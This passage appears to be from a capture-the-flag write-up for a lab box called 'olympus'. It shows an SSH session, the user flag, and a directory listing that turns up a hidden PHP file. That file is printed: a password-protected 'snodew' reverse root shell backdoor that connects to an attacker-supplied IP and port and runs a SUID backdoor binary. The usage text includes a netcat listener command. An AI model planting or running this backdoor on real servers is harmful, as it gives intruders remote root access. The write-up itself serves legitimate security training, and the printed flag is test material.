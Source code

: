 We got it, let's go into ssh now:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501145659.png)

We can now read second flag:

```
zeus@olympus:~$ cat user.flag
flag{Y0u_G0t_TH3_l1ghtN1nG_P0w3R}
```

If we go to `/var/www/html`, we can notice this:

```
zeus@olympus:/var/www/html$ ls -la
total 28
drwxr-xr-x 3 www-data www-data  4096 May  1  2022 .
drwxr-xr-x 5 root     root      4096 Mar 22  2022 ..
drwxrwx--x 2 root     zeus      4096 Jul 15  2022 0aB44fdS3eDnLkpsz3deGv8TttR4sc
-rwxr-xr-x 1 root     root     10988 Apr 18  2022 index.html.old
-rwxr-xr-x 1 root     root        57 Apr 18  2022 index.php
```

We got a weird directory:

```
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ ls -la
total 12
drwxrwx--x 2 root     zeus     4096 Jul 15  2022 .
drwxr-xr-x 3 www-data www-data 4096 May  1  2022 ..
-rwxr-xr-x 1 root     zeus        0 Apr 14  2022 index.html
-rwxr-xr-x 1 root     zeus     1589 Jul 15  2022 VIGQFQFMYOST.php
```

Let's read the file:

```php
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ cat VIGQFQFMYOST.php
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);
```